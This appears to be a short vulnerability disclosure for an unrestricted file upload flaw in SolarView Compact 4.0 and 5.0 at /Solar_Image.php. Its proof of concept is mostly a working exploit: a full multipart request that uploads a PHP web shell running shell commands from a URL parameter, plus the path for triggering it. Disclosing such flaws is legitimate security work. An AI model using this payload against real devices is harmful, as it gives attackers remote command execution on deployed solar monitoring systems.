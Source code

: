 # Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0

## Description 

Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0 at /Solar_Image.php can allow attackers to get a Remote Code Execution on the vulnerable host via upload crafted php file.

## POC

1. navigate to /Solar_Image.php
2. ulpad any php file and caputre the request
3. update the `userfile` and `upfilename` parameters like this:
```
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo "Shell";system($_GET['cmd']); ?>
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="upfilename"

shell.php
-----------------------------168287165333758025211172961484
```

4. send the request and navigate to /images/background/shell.php?cmd=ls

![image](https://user-images.githubusercontent.com/94288990/198075408-ed01502e-90f5-45df-b955-551ac8bffb79.png)


